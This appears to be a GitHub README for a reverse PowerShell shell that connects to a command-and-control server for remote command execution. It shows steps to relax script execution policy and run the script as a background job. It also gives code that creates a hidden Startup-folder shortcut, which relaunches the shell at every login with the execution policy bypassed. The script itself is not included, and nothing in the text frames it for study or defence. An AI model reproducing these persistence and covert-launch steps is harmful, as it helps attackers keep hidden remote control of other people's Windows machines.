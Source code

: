 # Reverse PowerShell Script

This PowerShell script establishes a reverse TCP connection to a command-and-control (C2) server and allows for remote command execution via a secure shell.

## Prerequisites

Before running the script, ensure you have the following:

- **PowerShell**: The script is written for PowerShell and should be executed in a Windows environment.
- **Execution Policy**: The script may require an execution policy that allows scripts to run.

## Step-by-Step Instructions

### 1. Set the PowerShell Execution Policy

To allow the script to run, you may need to set the execution policy to `RemoteSigned` for the current user.

1. Open a PowerShell window **as Administrator**.
2. Run the following command to set the execution policy:

   ```powershell
   Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
   ```

# ReversePowerShell

#### Run in the background

```powershell
   Start-Job -ScriptBlock { C:\Users\adm\Downloads\reverse-powershell.ps1 }
```



$startupFolder = [System.Environment]::GetFolderPath('Startup')
$scriptPath = "C:\Users\adm\Desktop\Reverse-Powershell\reverse-powershell.ps1"
$shortcutPath = "$startupFolder\reverse-powershell.lnk"


$wshShell = New-Object -ComObject WScript.Shell
$shortcut = $wshShell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = "-WindowStyle Hidden -ExecutionPolicy Bypass -File $scriptPath"
$shortcut.Save()

